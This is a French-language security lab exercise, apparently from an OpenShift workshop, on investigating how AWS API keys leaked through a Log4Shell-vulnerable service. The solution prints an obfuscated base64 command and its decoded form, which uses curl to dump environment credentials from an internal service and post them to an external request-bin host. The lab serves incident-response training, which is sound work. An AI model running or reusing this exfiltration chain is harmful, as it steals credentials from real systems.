 ```yaml
---
title: "Analyse d'un flux d'attaque"
draft: false
weight: 3
---
```


## Contexte

Nous sommes le 19 décembre 2021 (oui, vous avez bien lu, deux ans plus tôt, jour pour jour).

L'équipe cloud AWS vous averti qu'une clé d'API AWS a été compromise et a servi à déployer des logiciels de crypto mining.
Fort heureusement, votre société interdit la réutilisation des clés d'API pour plusieurs usages : vous êtes donc certain de l'origine de cette fuite de donnée : c'est l'application **visa-processor** qui exploite cette clé d'API.

```
$ oc rsh -n data-theft deploy/visa-processor /bin/sh -c 'env' | sort | grep ^A  
APP_ID=visa-processor
APP_ROOT=/opt/app-root
AWS_ACCESS_KEY_ID=Easy, peasy!
AWS_SECRET_ACCESS_KEY=Catch me if you can!
```

**Note** : les clés d'API AWS ont été caviardées dans le lab pour éviter une crise cardiaque inutile aux équipes sécurité **Red Hat**. Elles ont été remplacées par deux messages humoristiques. :)

Dans le même temps, l'équipe réseau vous averti de la présence d'un flux sortant inhabituel à destination de serveurs eux aussi hébergés sur AWS.

```
$ dig +short public.requestbin.com   
54.192.137.16
54.192.137.101
54.192.137.26
54.192.137.85
```

```
$ whois 18.155.129.83 |grep OrgTechName 
OrgTechName:   Amazon EC2 Network Operations
```

## Objectif de l'exercice

Votre mission, si vous l'acceptez, est d'investiguer l'environnement du Lab à la recherche du chemin parcouru par l'attaquant pour perpétrer cette exfiltration de données.
L'objectif est atteint quand vous trouvez l'URL du **Request Bin** utilisé par l'attaquant pour exfiltrer la clé d'API.

![Request Bin montrant la clé d'API AWS exfiltrée](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-Request-Bin.png)

## A vous de jouer !

Indices :

- Commencez par la section **Violations** et filtrez la vue avec `deployment:visa-processor namespace:data-theft`
- Basculez sur la section **Network Graph V2** et affichez les flux du cluster **local-cluster**, namespace **data-theft**. Cliquez sur les déploiements **information-service** et **back-office** et comparez leur flux. Lequel vous semble le plus suspicieux ?
- Retournez dans la section **Violations** et filtrez la vue avec le nom du déploiement qui vous semble le plus suspicieux.

## Solution

{{%expand "Solution" %}}

Naviguez dans la section **Violations** et filtrez la vue avec `deployment:visa-processor namespace:data-theft`.

![visa-processor violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-visa-processor-violations.png)

On note bien la présence de CVE mais rien de très suspicieux.

Basculez sur la section **Network Graph** et affichez les flux du cluster **local-cluster**, namespace **data-theft**.

Cliquez sur le déploiement **back-office**.

![back-office network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-back-office-network-graph.png)

Les flux observés semblent légitimes.

Cliquez sur le déploiement **information-service**.

![information-service network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-network-graph.png)

Observez le flux entrant depuis le router OpenShift et le flux sortant vers AWS.
Notez également que le déploiement **information-service** communique avec le déploiement **visa-processor**.

Naviguez dans la section **Violations** et filtrez la vue avec `deployment:information-service namespace:data-theft`.

![information-services violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violations.png)

Notez la présence de la vulnérabilité **Log4Shell** ainsi que d'un comportement suspect au runtime: **Shell Spawned by Java Application**.

Cliquez sur la violation **Shell spawned by Java Application**.

![information-services violation Shell Spawned by Java Application](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violation-shell-spawned.png)

Observez la commande exécutée :

```
echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d | sh
```

Décodez le contenu encodé en base64 (utilisez la commande "base64 -d") :

```
$ echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d

curl -sk -d '{\"numberOfIdentities\":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity | curl -sk --data-binary @- -H 'Content-Type: text/plain' https://enyd1rw3pwz3a.x.pipedream.net
```

La première commande **curl** exploite un bug de l'application pour récupérer la clé d'API AWS.

En temps normal, le composant **visa-processor** retourne la valeur de sa variable d'environnement **APP_ID** :

```
$ curl -sk -X POST http://visa-processor.data-theft.svc:8080/getApplicationIdentity
{
    "APP_ID": "visa-processor"
}
```

Mais en passant un argument supplémentaire non documenté, on peux récupérer les variables d'environnement qui suivent (par ordre alphabétique) :

```
$ curl -sk -d '{"numberOfIdentities":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity

{
    "APP_ID": "visa-processor",
    "APP_ROOT": "/opt/app-root",
    "AWS_ACCESS_KEY_ID": "Easy, peasy!",
    "AWS_SECRET_ACCESS_KEY": "Catch me if you can!"
}
```

La seconde commande **curl** exfiltre les données via le service **Request Bin**.
Connectez vous à [https://enyd1rw3pwz3a.x.pipedream.net](https://enyd1rw3pwz3a.x.pipedream.net) et confirmez que les données exfiltrées sont bien présentes.

{{% /expand%}}
